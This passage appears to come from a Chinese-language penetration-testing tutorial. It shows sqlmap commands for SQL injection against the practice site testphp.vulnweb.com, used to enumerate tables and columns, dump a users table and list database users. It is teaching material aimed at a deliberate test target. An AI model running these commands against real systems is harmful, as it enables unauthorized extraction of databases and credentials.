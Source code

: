 ![](img/d2cb69e2-3cbd-46b4-ac35-36d1b451aea0.png)

我们得到以下输出，显示有两个可用的数据库。有时，应用程序会告诉您它已经识别了数据库，并询问您是否要测试其他数据库类型。您可以继续输入“Y”。此外，它可能会询问您是否要测试其他参数以查找漏洞，请在此处输入“Y”，因为我们希望彻底测试 Web 应用程序。

**步骤 2：列出特定数据库中存在的表的信息**

要尝试访问任何数据库，我们必须修改我们的命令。我们现在使用-D 来指定我们希望访问的数据库的名称，一旦我们访问了数据库，我们希望看看是否可以访问表。

对于此任务，我们可以使用`--tables`查询来访问 acuart 数据库：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart --tables
```

在下图中，我们看到已恢复了八个表。通过这种方式，我们确切地知道网站是易受攻击的：

![](img/fe550ac2-0495-41f8-ac80-aea3322b5a87.png)

**步骤 3：列出特定表的列信息**

如果我们想要查看特定表的列，我们可以使用以下命令，其中我们使用`-T`来指定表名，并使用**`--columns`**来查询列名。

这是我们可以尝试访问‘users’表的命令：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart -T users
--columns
```

**步骤 4：从列中转储数据**

同样，我们可以使用以下命令访问特定表中的所有信息，其中`**--dump`查询检索用户表中的所有数据：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users --dump
```

从以下图片中，我们可以看到我们已经访问了数据库中的数据：

![](img/6c92aa64-3640-4011-9c2d-9184315084b5.png)

# 其他命令

同样，在易受攻击的网站上，我们可以通过其他命令从数据库中提取信息。

使用此命令，我们可以从数据库中获取所有用户：

```py
$ python sqlmap.py -u [URL] --users
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --users
```

在这里，我们获得了在数据库管理系统中注册的用户：

![](img/3d67ef38-867a-4907-aa9f-5277b7e4b8c1.png)

使用此命令，我们可以从表中获取列：
